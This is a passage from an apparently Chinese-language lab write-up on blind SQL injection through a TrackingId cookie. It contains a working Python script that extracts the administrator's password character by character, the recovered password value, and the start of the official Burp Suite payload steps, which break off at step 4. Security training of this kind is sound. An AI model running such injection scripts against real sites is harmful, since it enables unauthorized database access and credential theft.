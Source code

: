 ```python
     r = requests.get(url,headers=headers)
     if "Welcome back" in r.text:
         print(len)  # 显示 19 ，就代表有 20 位
     else:
         break

def getdata():
    data = ''
    flag = string.ascii_lowercase + string.digits
    for i in range(1, 21):   #注意这里的右边界该为 上个函数里的 位数加 1
        for j in flag:
            exp = f"' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username='administrator')='{j}"
            headers = {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36',
                'Cookie': f'TrackingId=9POirhityuQuZTlU{exp}'
            }
            r = requests.get(url,headers=headers)
            if "Welcome back" in r.text:
                data += j
                print(data)

if __name__ == '__main__':
    # getlength()
    getdata()
```

```
mwaepvq49x0h8q6kk3h3
```

#### 官方解

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.

2. Modify the `TrackingId` cookie, changing it to:

   ```
   TrackingId=xyz' AND '1'='1
   ```

   Verify that the "Welcome back" message appears in the response.

3. Now change it to:

   ```
   TrackingId=xyz' AND '1'='2
   ```

   Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to:

